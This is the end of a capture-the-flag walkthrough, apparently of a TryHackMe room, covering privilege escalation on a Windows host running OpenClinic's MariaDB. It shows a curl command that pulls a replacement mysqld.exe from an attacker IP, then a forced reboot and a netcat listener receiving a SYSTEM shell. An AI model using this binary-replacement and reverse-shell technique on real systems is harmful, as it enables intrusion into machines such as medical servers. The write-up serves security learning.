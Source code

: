 ```
C:\projects\openclinic\mariadb\bin>curl http://10.8.226.203:8000/mysqld.exe -o "C:\projects\openclinic\mariadb\bin\mysqld.exe"
curl http://10.8.226.203:8000/mysqld.exe -o "C:\projects\openclinic\mariadb\bin\mysqld.exe"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 73802  100 73802    0     0  73802      0  0:00:01  0:00:01 --:--:-- 68398


```
Restart

```
C:\projects\openclinic\mariadb\bin>shutdown /r /t 1 
shutdown /r /t 1 

```

It took a bit

```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 49670
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

Get your proof-of-success!

```
C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
THM{beeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeep} 

```

That room was cool!

You would think a clinic/hospital would not be a target for hackers? that's so 2010!

using an open source software doesnt mean you can neglect security!

## Extra

To go further, it seems there were some...less-intended ways to privesc!

First, if you check the privileges you see this:

```
c:\Users\Nekrotic\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name             Description                                State   
=============================================================================

...

SeImpersonatePrivilege  Impersonate a client after authentication    Enabled 

...

```
